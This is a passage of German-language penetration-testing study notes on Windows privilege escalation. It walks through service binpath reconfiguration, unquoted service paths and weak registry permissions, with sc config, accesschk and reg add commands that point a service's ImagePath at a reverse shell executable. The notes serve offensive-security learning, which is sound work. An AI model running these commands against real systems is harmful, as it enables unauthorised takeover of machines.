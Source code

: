 ![image-20200723235115960](https://user-images.githubusercontent.com/33549572/88439319-280b1b00-ce0b-11ea-9c95-8faff6848b8c.png)

Service somit umkonfigurieren und starten:

```
sc config <servicename> binpath= "Pfad"
net start <servicename>
```

![image-20200723235600397](https://user-images.githubusercontent.com/33549572/88439353-45d88000-ce0b-11ea-978b-ec13ace440ff.png)

#### Unquoted Service Path

Versuchen, eine Location zu beschreiben, die Windows zuvor ausführen würde.

Beispiel:

```
C:\Program Files\Some Dir\SomeProgram.exe
2 mögliche Startoptionen:
C:\Program (mit 2 Argumenten - Files\Some und Dir\SomeProgram.exe)
C:\Program Files\Some (mit 1 Argument - Dir\SomeProgram.exe)
```

Mittels winPEAS nach Unquoted Service Paths suchen und dann schauen, ob Pfade schreibbar sind:

![image-20200724001017258](https://user-images.githubusercontent.com/33549572/88439388-6274b800-ce0b-11ea-9df8-a75bd76b0d4b.png)

<img src="https://user-images.githubusercontent.com/33549572/88439406-6dc7e380-ce0b-11ea-803a-edfc9bf60f98.png" alt="image-20200724000904666" style="zoom:67%;" />

![image-20200724001110230](https://user-images.githubusercontent.com/33549572/88439421-7a4c3c00-ce0b-11ea-9299-273f93d551a9.png)

#### Weak Registry Permissions

```bash
#Either
powershell -exec bypass
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
#Or
accesschk /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Gruppe INTERACTIVE ("sudo" Gruppe) sind alle User, die sich lokal anmelden können. 

<img src="https://user-images.githubusercontent.com/33549572/88439428-80421d00-ce0b-11ea-91aa-190383146eec.png" alt="image-20200724132531929" style="zoom:67%;" />

Nun prüfen, ob man den Service starten kann.

```bash
accesschk.exe /accepteula -ucqv user regsvc
#Suchen nach: (SERVICE_START & SERVICE_STOP)
```

Nun versuchen, den ImagePath zu manipulieren und auf die reverse shell zeigen zu lassen.

```bash
#Prüfen, als welcher User der Service gestartet wird (und wo es grad hinzeigt)
reg query HKLM\CurrentControlSet\services\regsvc
#ImagePath ändern
reg add HKLM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
#Zuletzt Service starten
net start regsvc
```
